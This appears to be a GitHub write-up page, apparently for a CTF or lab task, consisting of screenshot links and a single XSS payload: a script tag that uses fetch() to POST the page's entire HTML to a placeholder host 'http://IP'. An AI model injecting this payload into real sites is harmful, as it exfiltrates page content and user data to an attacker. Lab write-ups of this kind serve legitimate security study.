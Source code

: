 ![image](https://github.com/stensil4rt/CodeBy/assets/62753044/1cd2340c-c114-4061-80d0-c0298fbf07ec)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/2e341bd9-fff8-45fe-afd0-23f2fb548474)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/880aa86b-cd53-4f4a-9150-959ba3d4d3a7)
```
<script>fetch('http://IP', {method: 'POST',mode: 'no-cors',body:document.documentElement.outerHTML});</script>
```
![image](https://github.com/stensil4rt/CodeBy/assets/62753044/d9ef29bb-946d-4ed0-a943-4c041cc1ac68)

![image](https://github.com/stensil4rt/CodeBy/assets/62753044/29cfc832-4bf0-4440-9a00-5f24215be178)
